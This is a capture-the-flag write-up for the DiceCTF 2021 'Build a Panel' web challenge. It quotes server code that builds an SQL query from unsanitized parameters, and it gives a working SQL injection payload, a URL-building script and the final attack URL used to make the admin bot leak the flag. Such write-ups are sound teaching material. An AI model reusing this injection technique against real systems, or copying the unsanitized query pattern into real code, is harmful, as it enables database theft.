 # Build a Panel

**Category**: Web \
**Points**: 130 (96 solves) \
**Author**: Jim

## Challenge

You can never have too many widgets and BAP organization is the future. If you
experience any issues, send it
[here](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=build-a-panel).

Site: [build-a-panel.dicec.tf](build-a-panel.dicec.tf) \
Attachments: `build-a-panel.tar.gz`

## Solution

Solved with ath0.

In `app/server.js`, we see:
```javascript
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```

None of the query params are sanitized, so we can do SQL injection like so:

```sql
INSERT INTO widgets (panelid, widgetname, widgetdata)
VALUES (
    'myCoolPanel',
    'flagWidget',
    '"' || (SELECT * FROM flag) || '"'
);
```

We need the extra `"` quotes because of `JSON.parse(row['widgetdata'])` after
widgets are selected from the database.

Script to create the URL:
```python
import urllib.parse

p = "myCoolPanel"
n = "flagWidget"
d = """\"' || (SELECT * FROM flag) || '\""""
d = urllib.parse.quote(d)

print(
    f"https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid={p}&widgetname={n}&widgetdata={d}"
)
```

Now we give this URL to the admin bot:
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=myCoolPanel&widgetname=flagWidget&widgetdata=%22%27%20%7C%7C%20%28SELECT%20%2A%20FROM%20flag%29%20%7C%7C%20%27%22

Then we go to https://build-a-panel.dicec.tf/create, set the `panelId` cookie to
`myCoolPanel`, and we'll see the flag sent over the network.

![flag.png](flag.png)
